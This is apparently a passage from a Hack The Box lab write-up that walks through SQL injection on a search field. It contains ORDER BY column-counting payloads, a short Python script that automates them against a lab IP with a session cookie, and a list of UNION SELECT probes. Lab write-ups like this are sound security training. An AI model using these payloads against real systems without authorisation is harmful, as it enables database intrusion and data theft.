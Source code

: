 ### <u>UNION select</u>
- Source
  - [SQLinjection UNION attacks[PortSwigger]](https://portswigger.net/web-security/sql-injection/union-attacks)

### <u>Finding Columns for attack</u>
- Finding how many columns for SQL injection attack
- By inserting this into `search field`:
  -  `' ORDER BY 1--`
  -  `' ORDER BY 2--`
  -  `' ORDER BY 3--` .. and so on.
  	-  Until you've found an error.

### <u>Python script</u>
- However, I'm kinda lazy. So, I made python script for it.

```python
#!/usr/bin/env python3

import requests

for i in range(1,100):
    url = f"http://10.10.10.46/dashboard.php?search=' ORDER BY {i} --"
    c = {'PHPSESSID':'lfbncgq98bat28uu4v3r4j2dnh'}
    r = requests.get(url, cookies=c)
    if len(r.content) == 2449:
        print(f"Error Not Here {i}")
    else:
        print(f"Error Here {i}")
```

- the result

![1](/assets/images/htb/vaccine/12.png)

- By looking at this result, we've found 5 columns.

### <u>Finding Columns with useful data</u>

> Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

- Now, we just found `5 columns` 
- The next payload gonna be using `UNION SELECT` 
- `Place string into each column.`
- This is what I'm gonna try:
	- `' UNION SELECT 'a',NULL,NULL,NULL,NULL--`
	- `' UNION SELECT NULL,'a',NULL,NULL,NULL--`
	- `' UNION SELECT NULL,NULL,'a',NULL,NULL--`
	- `' UNION SELECT NULL,NULL,NULL,'a',NULL--`
	- `' UNION SELECT NULL,NULL,NULL,NULL,'a'--`
